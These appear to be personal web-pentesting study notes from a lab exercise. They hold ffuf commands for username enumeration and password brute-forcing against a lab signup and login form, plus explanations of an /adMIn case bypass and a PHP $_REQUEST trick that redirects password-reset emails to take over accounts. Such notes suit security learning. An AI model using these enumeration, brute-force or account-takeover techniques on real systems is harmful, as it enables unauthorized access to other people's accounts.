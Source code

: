 







































## Username enumeration

{% code overflow="wrap" fullWidth="true" %}
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.141.250/customers/signup -mr "username already exists"

ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.141.250/customers/login -fc 200
```
{% endcode %}

## Logic Flaw

Code checking **/admin** for permissions but circumvented accessing **/adMIn** and not checking them.

Use case: a **reset password email** being sent via GET. The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favors POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered. For this we just need to register an email with the proper syntax (customer.X.com or whatever nomenclature the company uses) and then get a reset for the real account we compromise.

## Cookie Tampering
